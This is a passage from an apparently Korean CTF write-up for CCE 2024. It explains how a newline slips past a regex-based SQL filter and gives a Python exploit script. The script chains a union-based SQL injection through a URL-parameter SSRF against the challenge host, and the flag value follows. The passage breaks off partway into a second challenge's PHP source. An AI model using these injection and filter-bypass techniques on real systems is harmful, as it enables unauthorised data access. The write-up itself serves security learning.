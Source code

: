` union select 1\nasdf`을 입력하면 `select * from events where name = \' union select 1\nasdf\'`가 `select XXX\nasdf\'`로 바뀌게 된다. 개행 뒤에 부분이 필터링 되지 않는 이유는 정규표현식에서 `.*`는 개행을 제외한 모든 문자를 포함하기 때문에 개행을 사용하여 원하는 문자열을 쓸 수 있게 된다.   

다음으로, `select XXX` 쿼리가 실행되면 필드명이 XXX가 되기 때문에 `$row["body"]`에서 비어있는 값이 나오게 된다. 그리하여, `select XXX.* from (asdf) XXX` 이와 같이 쿼리를 구성하여 테이블을 XXX로 별칭을 지어주면 해결할 수 있다. asdf 부분에는 1,sha1(A),sha1(A),flag 형태가 되도록 union을 사용해 추가해주었고, 추가한 데이터를 결과로 반환하도록 쿼리를 작성해주면 된다.                 
        
### Exploit Code     
```python
import requests 

url = "http://52.231.137.27:37221"
# url = "http://localhost:37221/"

x = b" union select 1\n.* from (select * from events "
x += b"union/**/select * from (select 1)a "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)b "
x += b"join (select 0x36646364346365323364383865326565393536386261353436633030376336336439313331633162)c "
x += b"join (select body from events offset 1 rows fetch next 1 rows only)d offset 3 rows) XXX;-- -"

sql = ''
for i in range(len(x)):
    sql += '%%%02x' % (x[i])

r = requests.get(
    f"{url}", 
    params={
        "action": "ping",
        "arg": f"http://localhost:80\@.cce.cstec.kr|?action=db_show_event_detail&db_arg_event_name={sql}&db_arg_writer=A&db_arg_password=A",
    }
)
print(r.text)
```
       
### Flag    
cce2024{0fc77f746f6d6382d3efea1dfe6c0ae33b9ef655c6fa4546}    
    
    
<a id="Advanced_Login_System">Advanced Login System</a>         
    
# Advanced Login System          
     
문제를 출제하신 @as3617 분께서 올려주신 Write-Up을 참고하여 작성하였습니다. 

## index.php
```php
<?php

    session_start();
    require_once "lib.php";
    require_once "config/dbconn.php";

    if ($_SESSION["level"] > 900 && $_SESSION["username"] === "admin") {
        if ($_GET['mode'] === "debug_mode") {
            debug($_GET["debug"]);
        }
    } else if ($_SESSION["level"] == 1)  {
        session_write("level",2);
    } else {
```